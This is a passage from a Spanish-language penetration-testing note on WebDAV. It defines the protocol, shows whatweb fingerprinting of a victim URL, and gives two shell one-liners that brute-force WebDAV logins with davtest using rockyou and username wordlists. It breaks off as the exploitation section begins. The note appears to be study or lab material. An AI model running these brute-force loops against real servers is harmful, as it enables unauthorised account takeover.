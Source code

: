 #WebDAV #OWASP #Enumeracion #Explotacion 

#### Definición
>**WebDAV** (**Web Distributed Authoring and Versioning**) es una extensión del protocolo HTTP que permite a los usuarios **acceder** y **manipular** **archivos** en un servidor web a través de una conexión segura.

## Enumeración

Usaremos [[WHATWEB]] para identificar que tipo de tecnologías usa la pagina web es y así poder ver si es un WebDAV:
`whatweb <URL_Victima>`

Podemos usar una herramienta llamada [[DAVTEST]] nos enumera todos los tipos de archivos que se pueden subir a la web y cuales son ejecutables/interpretables, pero para ellos debemos de saber las credenciales
Si sabemos el nombre del usuario:
```shell
cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url <URL_Victima> -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] La contraseña es: $password"; break; fi; done
```

SI sabemos la contraseña: 
```shell
cat /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt  | while read username; do response=$(davtest -url <URL_Victima> -auth $username:Password123 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] El usuario es: $username"; break; fi; done
```


## Explotación

Usaremos o la herramienta [[DAVTEST]] con el siguinete comando para ver que tipops de ficheros son ejecutables en la web:
